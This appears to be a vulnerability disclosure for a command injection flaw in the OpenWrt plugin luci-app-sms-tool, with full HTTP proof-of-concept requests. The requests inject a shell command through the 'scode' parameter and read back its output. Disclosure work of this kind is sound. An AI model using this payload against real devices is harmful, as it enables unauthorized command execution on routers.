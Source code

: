 ## luci-app-sms-tool OpenWrt plugin has a command injection vulnerability

Affected product:  *luci-app-sms-tool* <= 1.9-6

### Product Information

project: https://github.com/4IceG/luci-app-sms-tool

Location of the vulnerability: https://github.com/4IceG/luci-app-sms-tool/blob/master/luci-app-sms-tool/luasrc/controller/modem/sms.lua

### Vulnerability Description

When deal with `run_sms` request,`scode` parameter is vulnerable to OS command injection.

![8](img/8.png)

### Verify

payload:

```http
GET /cgi-bin/luci/admin/modem/sms/run_sms?scode=12345678901234567890';%20ls%20%2F%3E%2Fwww%2Fsmstool123.txt%20#' HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=eb2cb32a138221c5bf88eb40ad64e37b
```

inject the command "`ls />/www/smstool123.txt`"

![9](img/9.png)

check the result

```http
GET /smstool123.txt HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=484d927d43dc6f3b20ca54148260c48d
```

![10](img/10.png)
